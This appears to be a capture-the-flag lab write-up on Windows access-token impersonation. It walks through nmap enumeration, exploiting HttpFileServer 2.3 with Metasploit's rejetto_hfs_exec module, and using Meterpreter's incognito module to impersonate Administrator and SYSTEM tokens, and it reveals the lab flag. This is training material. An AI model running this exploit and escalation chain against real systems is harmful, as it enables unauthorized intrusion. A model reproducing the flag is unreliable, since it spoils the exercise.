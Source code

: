 # 🔬Access Token

## Lab 1

>  🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
>  - Target IP: `10.4.22.75`
>  - **Access Token impersonation** 

### Enumeration

```bash
nmap 10.4.22.75
```

```bash
PORT      STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.22.75
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

- Without using `nmap`, the `http` server version can be checked in a browser by opening the link
  - `http://10.4.22.75/`

### Exploitation

```bash
searchsploit hfs
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.22.75
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 3640
    [*] Migrating from 1692 to 3640...
    [-] core_migrate: Operation failed: Access is denied.

getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
# LOCAL SERVICE account is by default unprivileged

getprivs
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege
```

- This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation

#### Access Token Impersonation

```bash
load incognito
# if the session dies, run the exploit again
```

```bash
list_tokens -u

    Delegation Tokens Available # Interactive Logon
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available # Non-Interactive Logon
    ========================================
    No tokens available
```

![incognito Meterpreter module](windows-attacksassets/image-20230317130902280.png)

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator
getprivs
	[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
pgrep explorer
migrate 3640

getprivs
```

![Access Token Impersonation](windows-attacksassets/image-20230317131313929.png)

- Listing tokens with this account, there can be additional available tokens

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1

    Impersonation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    NT AUTHORITY\NETWORK SERVICE
```

- `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

- In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
- Get the flag of the lab:

```
cd C:\\Users\\Administrator\\Desktop\\
```



<details>
<summary>Reveal Flag: 🚩</summary>



`x28c832a39730b7d46d6c38f1ea18e12`

![](windows-attacksassets/image-20230317132422697.png)

</details>

------

